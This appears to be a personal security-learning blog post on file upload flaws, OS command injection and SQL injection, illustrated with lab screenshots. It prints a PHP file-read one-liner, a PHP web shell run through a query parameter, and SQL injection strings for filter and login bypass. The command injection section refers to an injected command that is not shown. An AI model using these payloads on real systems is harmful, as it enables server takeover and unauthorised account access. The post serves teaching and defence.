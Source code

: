 ```yaml
---
title: File Upload Vulnerabilities
date: 2024-03-05 20:00 
categories: [Path Traversal]
tags: [HTTP, POST, Server]
author: jamarapo
---
```




File upload vulnerabilities happen when a website lets people upload files without checking if they're safe. This means the server doesn't properly look at things like the file's name, type, what's inside it, or how big it is. Without these checks, someone could use a seemingly harmless feature like uploading a picture to actually put harmful files on the server. These files could even include scripts that let them control the server from afar.

Sometimes, just uploading the file can cause problems. Other times, attackers might send another request to the server to make it run the uploaded file, causing even more trouble.

 Developers implement what they believe to be robust validation that is either inherently flawed or can be easily bypassed. For example, they may attempt to blacklist dangerous file types, but fail to account for parsing discrepancies when checking the file extensions. As with any blacklist, it's also easy to accidentally omit more obscure file types that may still be dangerous. 


  For example, the following PHP one-liner could be used to read arbitrary files from the server's filesystem:
```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```

Once uploaded, sending a request for this malicious file will return the target file's contents in the response.

A more versatile web shell may look something like this:
```php
<?php echo system($_GET['command']); ?>
```

This script enables you to pass an arbitrary system command via a query parameter as follows:
GET /example/exploit.php?command=id HTTP/1.1



![alt text](/assets/img/posts/File%20Upload/image.png)

![alt text](/assets/img/posts/File%20Upload/image-1.png)

![alt text](/assets/img/posts/File%20Upload/image-2.png)

Out in the real world, it's rare to come across a website that completely lacks protection against file upload attacks, like the one we tested in the last exercise. However, just because websites have defenses in place doesn't guarantee they're strong enough. Sometimes, there are still weaknesses in these defenses that can be exploited. These vulnerabilities might allow attackers to gain control over the website remotely by using what's called a "web shell" for executing code.

For simple text data, HTML forms use POST requests with content type application/x-www-form-url-encoded, but for large binary files like images or PDFs, multipart/form-data is preferred.

Websites can check the Content-Type header of uploaded files to make sure they match an expected type, like image files being image/jpeg or image/png. However, if the server only relies on this header without checking the file's content, it can be tricked into accepting harmful files. Tools like Burp Repeater can exploit this weakness.


![alt text](/assets/img/posts/File%20Upload/image-3.png)

![alt text](/assets/img/posts/File%20Upload/image-4.png)

## OS Command Injection

Preventing OS command injection requires robust input validation and sanitization practices, as well as using secure coding techniques such as parameterized queries in database interactions and utilizing secure APIs for executing system commands. Regular security audits and vulnerability assessments can also help identify and mitigate such vulnerabilities before they are exploited by malicious actors.

`https://insecure-website.com/stockStatus?productID=381&storeID=29`

**shell command**: stockreport.pl 381 29


- The original stockreport.pl command was executed without its expected arguments, and so returned an error message.
- The injected echo command was executed, and the supplied string was echoed in the output.
- The original argument 29 was executed as a command, which caused an error.

![alt text](/assets/img/posts/File%20Upload/image-5.png)


## SQL Injection
SQL injection (SQLi) goes beyond just peeking at data. Attackers can also:

- Modify or Delete Data: Injected code can alter or erase sensitive information within the database.
  
- Gain Control: In severe cases, attackers can leverage SQLi to take complete control of the server hosting the database.
  
- DDoS Attacks: SQLi can be used to overwhelm the database with requests, rendering it inaccessible to legitimate users (denial-of-service attack).

 You can detect SQL injection manually using a systematic set of tests against every entry point in the application. To do this, you would typically submit:

  - The single quote character ' and look for errors or other anomalies.
  
  - Some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and look for systematic differences in the application responses.
  
  - Boolean conditions such as OR 1=1 and OR 1=2, and look for differences in the application's responses.
  
  - Payloads designed to trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.
  
  - OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitor any resulting interactions.

`https://insecure-website.com/products?category=Gifts`

This causes the application to make a SQL query to retrieve details of the relevant products from the database:
```SQL
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
`https://insecure-website.com/products?category=Gifts'--`

This results in the SQL query:
```sql 
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

Crucially, note that -- is a comment indicator in SQL. This means that the rest of the query is interpreted as a comment, effectively removing it. In this example, this means the query no longer includes AND released = 1. As a result, all products are displayed, including those that are not yet released. 

`https://insecure-website.com/products?category=Gifts'+OR+1=1--`

This results in the SQL query:
```SQL
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

The modified query returns all items where either the category is Gifts, or 1 is equal to 1. As 1=1 is always true, the query returns all items. 


![alt text](/assets/img/posts/File%20Upload/image-6.png)


Subverting application logic

Imagine an application that lets users log in with a username and password. If a user submits the username wiener and the password bluecheese, the application checks the credentials by performing the following SQL query:
```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```
If the query returns the details of a user, then the login is successful. Otherwise, it is rejected.

In this case, an attacker can log in as any user without the need for a password. They can do this using the SQL comment sequence -- to remove the password check from the WHERE clause of the query. For example, submitting the username administrator'-- and a blank password results in the following query:
```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```
This query returns the user whose username is administrator and successfully logs the attacker in as that user.

![alt text](/assets/img/posts/File%20Upload/image-7.png)

![alt text](/assets/img/posts/File%20Upload/image-8.png)

